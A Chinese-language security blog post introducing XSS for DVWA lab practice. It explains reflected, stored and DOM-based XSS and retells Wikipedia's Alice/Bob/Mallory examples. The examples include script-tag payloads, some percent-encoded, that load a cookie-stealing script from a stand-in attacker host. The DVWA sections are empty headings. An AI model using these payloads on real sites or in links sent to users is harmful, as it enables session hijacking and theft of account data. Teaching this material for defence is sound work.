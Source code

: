 ```yaml
---
layout:     post
title:      DVWA靶机练习之XSS
subtitle:   
date:       2019-12-08
author:     kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - security
    - web
    - XSS
---
```




## XSS是什么

XSS(cross-site-scripting) 即是跨站脚本攻击，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。 



简洁点来说，XSS 就是利用了网站对用户输入没有过滤完全的漏洞，上传恶意代码到网站页面上，使得其他用户加载页面时执行攻击者的恶意代码，达到窃取用户敏感信息（如 cookie）的目的，根据种类不同，一般又分为 反射型 XSS 攻击，存储型 XSS 攻击，DOM 型 XSS 攻击



### Non-persistent (reflected)



反射型 XSS 攻击并不会将恶意脚本存储在服务端，需要用户在和后端交互时自己输入恶意的脚本，因此这种 XSS 攻击一般存在于钓鱼连接中，攻击者已经构造好一个包含恶意代码的链接，如果用户点击了这个链接，就会被窃取隐私信息，比如下面这个钓鱼链接就是个反射型 XSS 攻击脚本



```
http://bobssite.org/search?q=puppies<script>alert('document.cookie');</script>
```



### Persistent (or stored)



存储型 XSS 攻击是将恶意脚本植入服务器端，这样每一次用户访问一个正常的页面时，恶意的代码都会被自动渲染，如果不能及时发现的话会对网站造成很大的影响，假如在一个访问量很大的页面启用 XSS 攻击访问另外的一个网站，则会造成 Dos 攻击的效果，这种 XSS 一般存在于留言板之类的应用中



### DOM-based



DOM 型的 XSS 攻击不会将代码传到服务器端进行交互，所有的处理都由 JavaScript 完成，因此如果前端 JavaScript 没有对输入进行很好的过滤就会造成这种 XSS 攻击



## Wikipedia demo



这里是维基百科上关于 XSS 攻击的两个 demo ，包含持续性和非持续性两种例子



### Non-persistent



1. 爱丽丝经常访问由鲍勃（Bob）托管的特定网站。 Bob的网站允许 Alice 使用用户名/密码对登录并存储敏感数据，例如账单信息。 当用户登录时，浏览器会保留一个“授权 Cookie”，它看起来像一些垃圾字符，因此两台计算机（客户端和服务器）都具有她已登录的记录。
2. Mallory 注意到 Bob 的网站包含一个反射型 XSS 漏洞：
   1. 当她访问“搜索”页面时，她在搜索框中输入搜索词，然后单击“提交”按钮。 如果未找到任何结果，则该页面将显示她搜索的字词，后跟“未找到”字样，其网址为 http://bobssite.org/search?q=her%20search%20term
   2. 使用正常的搜索查询（例如单词“ puppies”），页面仅显示“找不到小狗”，而网址为“ http://bobssite.org/search?q=puppies”-这是完全正常的行为
   3. 但是，当她提交异常的搜索查询时，例如“ <script type ='application / javascript'> alert（'xss'）; </ script>”，
      1. 出现一个警告框（显示 “ xss” ）
      2. 该页面显示“未找到”，以及带有文本 “ xss” 的错误消息。
      3. 网址是 “ http://bobssite.org/search?q= <script％20type ='application / javascript'> alert（'xss'）; </ script> - 这是可利用的行为
3. Mallory制作了一个利用此漏洞的URL：
   1. 她制作了 URL  http://bobssite.org/search?q=puppies<script%20src=“ http://mallorysevilsite.com/authstealer.js”> </ script>。 她可以选择使用百分比编码来对 ASCII 字符进行编码，例如 http://bobssite.org/search?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22 ％3E％3C％2Fscript％3E，因此人类读者无法立即破译恶意 URL
   2. 她向鲍勃网站的一些毫无戒心的成员发送了一封电子邮件，说：“看看一些可爱的小狗！”
4. 爱丽丝得到了电子邮件。 她喜欢小狗，然后单击链接。 它转到 Bob 的网站进行搜索，未找到任何内容，并显示“未找到小狗”，但在这之间，脚本标签运行（在屏幕上不可见）并加载并运行 Mallory 的程序 authstealer.js（触发 XSS 攻击）， 爱丽丝并不知道。
5. authstealer.js 程序在Alice的浏览器中运行，就像它起源于Bob的网站一样。 它获取 Alice 的 Authorization Cookie 的副本，并将其发送到 Mallory 的服务器，Mallory 在该服务器上检索它。
6. Mallory 现在将 Alice 的授权 Cookie 放在自己的浏览器中，就好像是她自己的一样。 然后，她去了 Bob 的站点，现在以 Alice 的身份登录。
7. 现在她进入了，Mallory 转到网站的 Billing 部分，查找 Alice 的信用卡号并获取一个副本。 然后她去更改密码，以使爱丽丝什至无法登录。
8. 她决定更进一步，并向 Bob 自己发送类似的链接，从而获得 Bob 的网站管理员权限。



### Persistent



1. Mallory 在 Bob 的网站上获得了一个帐户
2. Mallory 发现 Bob 的网站包含一个存储型 XSS 漏洞。 如果转到“新闻”部分并发表评论，它将显示他输入的任何内容。 但是，如果注释文本中包含 HTML 标记，则标记将按原样显示，并且所有脚本标记都将运行
3. Mallory 在“新闻”部分阅读文章，并在“评论”部分底部写评论。 她在评论中插入了这段文字：我喜欢这个故事中的幼犬！ 他们是如此可爱！<script src =“ http://mallorysevilsite.com/authstealer.js”>
4. 当爱丽丝（或其他人）用评论加载页面时，马洛里的脚本标签运行并窃取爱丽丝的授权 cookie，然后将其发送到 Mallory 的秘密服务器进行收集
5. Mallory 现在可以劫持 Alice 的会话并假冒 Alice



## DVWA 案例



### 低级









### 中级



### 高级



